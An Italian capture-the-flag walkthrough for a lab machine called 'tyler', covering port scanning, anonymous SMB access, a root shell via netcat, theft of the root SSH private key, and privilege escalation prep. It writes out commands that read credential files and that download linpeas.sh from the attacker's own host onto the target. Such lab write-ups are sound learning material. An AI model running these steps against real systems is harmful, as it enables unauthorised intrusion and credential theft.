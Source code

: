 # Tyler

## ENUM
partiamo con una enumerazione e scan dei serizi


```bash
nmap tyler.thm -sV -sC 
```
ed ecco spuntare a schermo la porta 445

colleghiamoci e vediamo cosa ci offre

## SMB

```bash
smbclient -L \\\\tyler.thm\\
```

guardiamo se collegandoci in anonimo in tutte e tre le directory abbiamo qualche hint
```bash
smbclient \\\\tyler.thm\\public
```

ecco la prima flag il file alert invece nulla di interessante. bene...cambiamo approccio

```bash
nmap tyler.thm -p-
```

ecco un altra porta 6555

## porta 6555

```bash
nc tyler.thm 6555
```
molto bene....abbiamo un accesso come root!!! entriamo nella cartella root ecco davanti a noi un altra flag

ma non abbiamo il file king.txt??

controlliamo meglio dall'ssh

```bash
cd /root/.ssh
cat id_rsa.pub

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+0qTaj8PluXd4pyYNMGPLbP2ZTwh4I8hVCNnkzaL7oXXbZolVtehOCawy+DOgnccIEHUqMgEvOEEs+2u/+UpWxL7t1QSnyLvMrMKAnLXBQDzr2uJx7Ljhli8wv7nIX83EcpzU7M2bViGGpXhxOAQa6Ud7pRVXekh71qZI22I7Zg/NPPSzsMbm0CQrJ9Q+J2kugu/EK4VQsR1COMs+7ssd0gkHQ8PooLHr1+x4Trf+DRb/H02hjl1TaZ589CixlQQNUfHzLjXnnuE7qslcX8c6Oe7sv7e808M87ZokdhrifWZrfwCxaZ54D6xWYdSScYzMKqLh0HQxO3KokicRgTJx tdurden@tyler
```

ecco la soluzione probabilmente il root di tdurden è separato dalla macchina main 

```bash
cd /root/.ssh
cat id_rsa
```
prendiamo l'id_rsa e colleghiamoci in ssh

ricordatevi di dare i giusti permessi all'id_rsa sulla vostra macchina 

quindi 
```bash
chmod 600 id_rsa
```
successivamente 

```bash
ssh tdurden@tyler.thm -i id_rsa
```
facciamo un controllo degli utenti 

```bash
cat /etc/passwd
```
ecco l'output andiamo ad analizzarlo
```bash
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
tdurden:x:1000:1000:Tyler Durden:/home/tdurden:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
narrator:x:1002:1002::/home/narrator:/bin/bash
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
nginx:x:997:994:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
librenms:x:996:993::/opt/librenms:/bin/bash

```

si siamo sulla macchina main facciamo il privesc

## Privesc
andiamo su una cartella dove possiamo caricare file e carichiamo il programma linpeas.sh (scaricatevelo prima!!)

```bash
sulla nostra macchina nella cartella dove è presente linpeas.sh facciamo: python -m http.server 80
sulla macchina tyler invece: wget http://indirizzoipnostro/linpeas.sh
```
ora diamo i permessi di avvio a linpeas.sh
```bash
chmod +x linpeas.sh
```
abbiamo trovato un vulnerabilità nel comando vim (controllate gtfo.bins ed è fatta)
